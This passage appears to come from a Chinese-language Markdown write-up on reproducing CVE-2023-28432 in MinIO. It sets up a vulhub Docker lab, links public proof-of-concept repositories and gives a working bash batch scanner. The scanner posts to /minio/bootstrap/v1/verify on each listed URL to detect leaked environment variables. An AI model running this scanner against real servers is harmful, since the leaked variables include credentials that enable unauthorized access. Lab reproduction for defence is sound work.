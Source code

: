 

## 3.复现

### 3.1 环境搭建

> https://note.dolyw.com/docker/07-MinIO.html【集群】
>
> https://github.com/vulhub/vulhub/blob/master/minio/CVE-2023-28432/README.zh-cn.md



​	用本地Docker服务开启容器，下载docker-compose.yml：其中包含3个以集群模式运行的Web服务端口，启动命令：`docker-compose up -d`

​	集群启动后，访问http://localhost:9001可以查看MinIO Web控制台界面，如图，而http://localhost:9000是API服务。

```
docker-compose up -d
```

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304171950082.png" alt=" MinIO登陆界面" style="zoom: 25%;" />



⚠️集群启动后，访问`http://your-ip:9001`可以查看Web管理页面，访问`http://your-ip:9000`是API服务

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202304172004759.png" alt="测试环境" style="zoom: 33%;" />

### 3.2 pocs

工具：python3

python3 minio.py -u [http://127.0.0.1:1111](http://127.0.0.1:1111/) 单个url测试

python3 minio.py -f url.txt 批量检测

扫描结束后会在当前目录生成存在漏洞url的vuln.txt

> pocs:
>
> https://github.com/MzzdToT/CVE-2023-28432
>
> https://github.com/Mr-xn/CVE-2023-28432



poc1

```bash
#!/bin/bash
# Author : whgojp
# Enable colors
GREEN='\033[0;32m'
NC='\033[0m'

count=0

while read -r line; do
  ((count++))

  response=$(curl -s -XPOST "$line/minio/bootstrap/v1/verify -k" --connect-timeout 3)	#修改一下 这里加了-k 忽略对 SSL 证书验证
  if echo "$response" | grep -q "MinioEnv"; then		#匹配关键词
    printf "${GREEN}[!] ${line}${NC}：is Vulnerable！！！\n"
    echo "$line" >> result.txt
  else
    printf "[+] (${count}/$(wc -l < MinIO.txt)) Scanning: ${line}\n"
  fi
done < MinIO.txt

```
